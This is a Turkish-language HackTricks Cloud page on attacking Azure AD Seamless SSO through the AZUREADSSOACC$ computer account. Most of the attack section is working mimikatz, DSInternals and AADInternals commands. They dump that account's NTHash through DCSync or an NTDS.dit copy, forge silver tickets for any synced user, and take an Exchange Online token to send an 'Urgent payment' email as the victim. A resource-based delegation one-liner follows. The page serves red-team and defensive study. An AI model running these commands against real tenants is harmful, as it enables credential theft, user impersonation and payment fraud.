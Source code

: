 # Az - Sorunsuz SSO

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>

## Temel Bilgiler

[Dokümantasyondan:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Sorunsuz Tek Oturum Açma (Azure AD Sorunsuz SSO), kullanıcıların kurumsal ağınıza bağlı kurumsal cihazlarında olduğunda otomatik olarak **oturum açar**. Etkinleştirildiğinde, kullanıcıların Azure AD'ye oturum açmak için şifrelerini girmeleri veya genellikle kullanıcı adlarını bile girmeleri gerekmez. Bu özellik, kullanıcılarınıza ek bir yerel bileşen gerektirmeden bulut tabanlı uygulamalarınıza kolay erişim sağlar.

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Temel olarak, Azure AD Sorunsuz SSO, kullanıcıların **yerel bir etki alanına katılmış bir PC'de** olduğunda otomatik olarak oturum açar.

Bu, hem [**PHS (Şifre Karma Eşitleme)**](phs-password-hash-sync.md) hem de [**PTA (Geçiş Yolu Kimlik Doğrulaması)**](pta-pass-through-authentication.md) tarafından desteklenmektedir.

Masaüstü SSO, kimlik doğrulama için **Kerberos** kullanır. Yapılandırıldığında, Azure AD Connect, yerel AD'de **AZUREADSSOACC`$`** adında bir bilgisayar hesabı oluşturur. `AZUREADSSOACC$` hesabının şifresi, yapılandırma sırasında **düz metin olarak Azure AD'ye gönderilir**.

**Kerberos biletleri**, şifrenin **NTHash (MD4)** ile şifrelendiği ve Azure AD'nin biletleri çözmek için gönderilen şifreyi kullandığı şekilde **şifrelenir**.

**Azure AD**, Kerberos **biletlerini kabul eden** bir **uç nokta** (https://autologon.microsoftazuread-sso.com) sunar. Etki alanına katılmış bir makinenin tarayıcısı, SSO için bu uç noktaya biletleri ileterek işlem yapar.

### Yerel -> bulut

Kullanıcının **`AZUREADSSOACC$` hesabının şifresi asla değişmez**. Bu nedenle, bir etki alanı yöneticisi bu hesabın **hash'ini ele geçirebilir** ve ardından **herhangi bir senkronize edilmiş yerel kullanıcıyla Azure'a bağlanmak için gümüş biletler** oluşturabilir:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Artık hash ile **gümüş biletler oluşturabilirsiniz**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Silver biletini kullanmak için aşağıdaki adımlar gerçekleştirilmelidir:

1. **Tarayıcıyı Başlatmak:** Mozilla Firefox açılmalıdır.
2. **Tarayıcıyı Yapılandırmak:**
- **`about:config`** adresine gidin.
- [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) tercihini belirtilen [değerlere](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) ayarlayın:
- `https://aadg.windows.net.nsatc.net`
- `https://autologon.microsoftazuread-sso.com`
3. **Web Uygulamasına Erişmek:**
- Kuruluşun AAD etki alanıyla entegre olan bir web uygulamasını ziyaret edin. Yaygın bir örnek [Office 365](https://portal.office.com/)'dir.
4. **Kimlik Doğrulama Süreci:**
- Giriş ekranında kullanıcı adı girilmeli, şifre alanı boş bırakılmalıdır.
- Devam etmek için TAB veya ENTER tuşuna basın.

{% hint style="success" %}
Bu, etkinse MFA'yı atlamaz.
{% endhint %}

#### ~~Yalnızca bulut kullanıcıları için Kerberos biletleri oluşturma~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Eğer Active Directory yöneticileri Azure AD Connect'e erişime sahipse, **herhangi bir bulut kullanıcısı için SID ayarlayabilirler**. Bu şekilde Kerberos **biletleri yalnızca bulut kullanıcıları için de oluşturulabilir**. Tek gereklilik, SID'in doğru bir [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) olmasıdır.

{% hint style="danger" %}
Bulut tabanlı yönetici kullanıcılarının SID'ini değiştirmek artık **Microsoft tarafından engellenmektedir**.\
Bilgi için [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/) adresini kontrol edin.
{% endhint %}

### Yerel -> Bulut Kaynak Temelli Kısıtlı Delege Aracılığıyla <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Bu hesabın bulunduğu konteynerde veya OU'da bilgisayar hesaplarını (`AZUREADSSOACC$`) yönetebilen herhangi biri, **kısıtlı delege aracılığıyla hesaba erişebilir**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Referanslar

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Bulutunuzdayım, herkesin e-postasını okuyorum - Azure AD'yi Active Directory üzerinden hackleme](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>A'dan Z'ye AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya HackTricks'i **PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin.**
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>
